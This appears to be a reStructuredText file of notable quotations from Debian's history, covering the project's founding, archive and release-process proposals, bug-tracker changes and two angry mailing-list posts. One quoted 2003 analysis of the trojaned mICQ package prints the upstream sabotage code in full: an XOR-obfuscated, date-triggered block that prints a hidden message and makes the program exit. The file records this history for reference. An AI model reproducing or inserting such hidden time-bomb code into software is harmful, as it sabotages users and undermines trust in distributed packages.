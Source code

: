 Foundation of Debian:

   This is just to announce the imminent completion of a brand-new Linux
   release, which I'm calling the Debian Linux Release.

   -- `Ian Murdock, 1993-08-16 <https://groups.google.com/groups?selm=CBusDD.MIK%40unix.portal.com&output=gplain>`_

Proposal of the pool-based archive structure:

   A long time ago […] I was on the verge of proposing a radical change in the
   way we handle versioning…

   […]

   The general notion is that all package uploads go into a common pool.
   Scripts on the server routinely build a symlink tree that points to the most
   recent version of each package in the pool, which is the equivalent of the
   current ‘unstable’ tree. In fact, there could even be different flavors of
   instability, with different criteria used by the link tree builder to
   determine which versions to link to for each tree. Trees of symlinks are
   cheap.

   -- `Bdale Garbee, 1998-05-29 <https://lists.debian.org/199805290835.CAA07223@chunks.gag.com>`_

The “testing” distribution proposal:

   I made a relatively thorough proposal for a different approach to handling
   the migrate of a package from an unstable-by-definition upload to a released
   state a while back.

   […]

      Any upload of a package is, by definition, “unstable” until proven
      otherwise.

      Therefore, uploads should *always* go into the unstable tree.

      The process by which a package is “promoted” from unstable through one or
      more stages until it becomes part of a stable release needs to involve
      consistency checking, testing, and enough time elapsed to allow
      confidence to build in the package.

      The promotion criteria should include a guarantee that the release
      candidate never has dependency issues, never has a package version with a
      truly “release critical” bug known at the time of promotion, and so
      forth. Those characteristics will always be part of the unstable tree…
      but should *only* be part of the unstable tree!

   -- `Bdale Garbee, 1999-01-05 <https://lists.debian.org/199901060618.XAA17819@rover.gag.com>`_

The first multi-arch proposal:

   I would love to see Debian adopt a solution that allows use of unmodified
   ia32 (i386 in Debian lingo) packages on ia64 systems… and which is general
   enough to handle the other multi-arch flavors we can anticipate.

   […]

   Of course, doing this is a lot of work. Clearly, other distributions
   supporting ia64 have chosen to take more expedient paths. If there's a good
   hack I haven't thought of that won't make us all ill, I'd be pleased to
   consider it. I'm not thrilled by the path translation on the fly, but it is
   clearly an alternative we could consider, for example.

   I intend for ia64 to be released stable with woody. I would love for the
   ia32 user space “problem” to be resolved cleanly by then, but I'm not
   expecting miracles. If I have to hack something interim while waiting for a
   general solution to be implemented, I can probably live with that.

   -- `Bdale Garbee, 2001-06-04 <https://lists.debian.org/20010604220542.8AD8E35EEE@rover.gag.com>`_

Analysis of the trojaned mICQ package:

   So, basically, what you're saying is that you uploaded a package to Debian
   that included some malicious and obfuscated code from upstream, that neither
   you nor your sponsor […] spotted. The code in question, for those playing
   along at home, is […]::

      #if defined(__Dbn__) && __Dbn__ != -1 && !defined (EXTRAVERSION)
        if (me[0] != 'm' || me[1] != 'a' || me[2] != 'd' || me[3] != 'k' ||
            me[4] != 'i' || me[5] != 's' || me[6] != 's' || me[7])
        if (time (NULL) > 1045000000)
        {
            const char *parts[] = {
                          "\n\n\eX0282nZlv$qf#vpjmd#wkf#nJ@R#sb`hbdf#sqlujgfg#az",
                          "#Gfajbm-#Pjm`f#wkf#Gfajbm#nbjmwbjmfq#jp#f{wqfnfoz#",
                          "vm`llsfqbwjuf/#zlv$qf#bguj`fg#wl#vpf#wkf#afwwfq#rv",
                          "bojwz#sb`hbdf#eqln#nj`r-lqd-#Pjnsoz#bgg#wkf#eloolt",
                          "jmd#ojmf#wl#zlvq#,fw`,bsw,plvq`fp-ojpw#wl#wqb`h#pw",
                          "baof#ufqpjlmp#le#nJ@R9\eX3n\ngfa#kwws9,,ttt-nj`r-lqd",
                          ",gfajbm#pwbaof#nbjm\n\eX0282nWl#wqb`h#@UP#pmbspklwp/",
                          "#bgg9\eX3n\ngfa#kwws9,,ttt-nj`r-lqd,gfajbm#wfpwjmd#n",
                          "bjm\n\eX0282nPlvq`f#sb`hbdfp#nbz#af#qfwqjfufg#pjnjob",
                          "qoz-\eX3n\n\n                                        " };

            char buf[52];
            int i, j;

            for (i = 0; i < 10; i++)
            {
                for (j = 0; j < 50; j++)
                    buf[j] = parts[i][j] > 30 ? parts[i][j] ^ 3 : parts[i][j];
                buf[j] = '\0';
                M_print (buf);
            }
            exit (99);
        }
      #endif

   -- `Anthony Towns, 2003-02-14 <https://lists.debian.org/20030213165225.GB7379@azure.humbug.org.au>`_

BTS version tracking announcement:

   A frequently requested feature for the bug tracking system in recent years
   has been the ability to track which bugs apply to which distributions, so
   that, eg, maintainers and others can tell which bugs that have been fixed in
   unstable still apply to packages in testing or stable.

   This has now been implemented.

   It is quite a far-reaching change, and you will probably want to adjust the
   way you deal with the BTS as a consequence.

   -- `Colin Watson, 2005-07-18 <https://lists.debian.org/20050718110629.GA729@riva.ucam.org>`_

Debian X Strike Force member defending the decision to make the X server depend on HAL:

   THIS IS NOT A FUCKING VOTE.

   -- `Julien Cristau, 2009-04-15 <https://lists.debian.org/1239821223.25727.25.camel@radis.liafa.jussieu.fr>`_

Extreme anger about init system call-for-votes:

   This unannounced CFV is an abuse of process. I am EXTREMELY ANGRY
   and I will sponsor any GR that seeks to overturn it.

   -- `Ian Jackson, 2014-02-09 <https://lists.debian.org/21239.54254.395132.572483@chiark.greenend.org.uk>`_

.. vim:ts=3 sw=3 et

